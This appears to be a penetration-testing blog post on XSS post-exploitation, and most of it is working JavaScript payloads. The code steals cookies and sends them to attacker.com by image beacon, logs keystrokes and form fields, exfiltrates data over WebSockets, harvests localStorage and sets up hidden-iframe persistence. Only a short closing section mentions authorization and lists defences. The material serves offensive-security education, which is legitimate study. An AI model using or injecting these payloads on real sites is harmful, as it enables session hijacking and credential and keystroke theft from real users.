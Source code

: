 ```yaml
---
title: "Advanced XSS Post-Exploitation: From Cookie Theft to Data Exfiltration"
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


Cross-Site Scripting (XSS) vulnerabilities remain one of the most prevalent web application security issues, but finding an XSS vulnerability is just the beginning. This comprehensive guide explores advanced post-exploitation techniques that transform basic XSS vulnerabilities into sophisticated attack vectors, focusing on cookie theft, keylogging, and data exfiltration methods.

## Understanding XSS Post-Exploitation

Before diving into advanced techniques, it's crucial to understand that post-exploitation in XSS attacks involves leveraging the initial JavaScript execution capability to achieve broader objectives. These objectives typically include session hijacking, credential harvesting, and persistent access to the victim's browser.

## Advanced Cookie Theft Techniques

### Traditional vs. Advanced Cookie Theft

The basic `document.cookie` approach is well-known, but modern applications require more sophisticated methods. Here's an advanced cookie theft payload that handles various security implementations:

```javascript
(function() { 
  var cookies = document.cookie; 
  var cookieArray = cookies.split(';'); 
  var encodedData = btoa(JSON.stringify({ 
    'cookies': cookieArray, 
    'url': window.location.href, 
    'userAgent': navigator.userAgent 
  })); 
  new Image().src = 'http://attacker.com/collect?data=' + encodedData; 
})();
```

### Handling HttpOnly Cookies

While HttpOnly cookies can't be directly accessed via JavaScript, we can implement alternative strategies:

```javascript
// Force cookie reflection through server-side requests
fetch('/api/user/profile', { credentials: 'include' })
  .then(response => response.json())
  .then(data => {
    // Exfiltrate the data
    sendToAttacker(data);
  });
```

## Implementing Advanced Keyloggers

### Event-Based Keylogging

Create sophisticated keyloggers that capture not just keystrokes but also context and form data:

```javascript
function advancedKeylogger() {
  let buffer = '';
  let lastElement = null;
  document.addEventListener('keydown', function(e) {
    const target = e.target;
    const elementInfo = {
      id: target.id,
      name: target.name,
      type: target.type,
      value: target.value
    };
    if (target !== lastElement) {
      // New context - send buffer
      if (buffer.length > 0) {
        sendData(buffer, lastElement);
        buffer = '';
      }
      lastElement = target;
    }
    buffer += e.key;
    // Implement intelligent buffering
    if (buffer.length >= 32 || e.key === 'Enter') {
      sendData(buffer, elementInfo);
      buffer = '';
    }
  });
}
```

### Form Submission Monitoring

Implement form submission monitoring for capturing complete datasets:

```javascript
document.addEventListener('submit', function(e) {
  const formData = new FormData(e.target);
  const data = {};
  for (let [key, value] of formData.entries()) {
    data[key] = value;
  }
  // Exfiltrate form data
  sendToAttacker(data);
});
```

## Data Exfiltration Strategies

### Stealthy Data Transfer

Implement various exfiltration methods to bypass security controls:

```javascript
class StealthyExfiltrator {
  static async sendData(data) {
    // Method 1: Image beacon
    if (data.length < 2000) {
      new Image().src = `https://attacker.com/collect?d=${encodeURIComponent(data)}`;
      return;
    }
    // Method 2: WebSocket (for larger datasets)
    const ws = new WebSocket('wss://attacker.com/ws');
    ws.onopen = () => {
      ws.send(JSON.stringify(data));
      ws.close();
    };
  }
}
```

### Advanced Data Collection

Gather comprehensive system and browser information:

```javascript
function gatherEnvironmentData() {
  return {
    screen: {
      width: screen.width,
      height: screen.height,
      colorDepth: screen.colorDepth
    },
    browser: {
      userAgent: navigator.userAgent,
      language: navigator.language,
      cookies: navigator.cookieEnabled
    },
    location: window.location.href,
    localStorage: { ...localStorage },
    timing: performance.timing
  };
}
```

## Persistence Techniques

### DOM-Based Persistence

Implement persistent access through DOM manipulation:

```javascript
function establishPersistence() {
  // Create hidden iframe for persistence
  const iframe = document.createElement('iframe');
  iframe.style.display = 'none';
  document.body.appendChild(iframe);
  // Inject persistent code
  iframe.contentWindow.eval(`
    setInterval(() => {
      // Maintain connection and execute commands
      checkForCommands();
    }, 5000);
  `);
}
```

## Security Considerations and Mitigation

When testing these techniques, always ensure you have proper authorization and are operating within legal boundaries. For defenders, implement the following protections:

- Content Security Policy (CSP) headers
- Strict cookie security flags
- Input validation and output encoding
- Regular security assessments
- Browser security headers

## Conclusion

XSS post-exploitation techniques continue to evolve, and understanding these advanced methods is crucial for both offensive security professionals and defenders. Always remember that these techniques should only be used in authorized testing environments and with proper permissions.

## Additional Resources

- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Modern Web Security Standards](https://www.web.dev/security)
- [Browser Security Headers Documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [Web Application Firewall Configuration Guides](https://www.cloudflare.com/learning/security/glossary/what-is-web-application-firewall-waf/)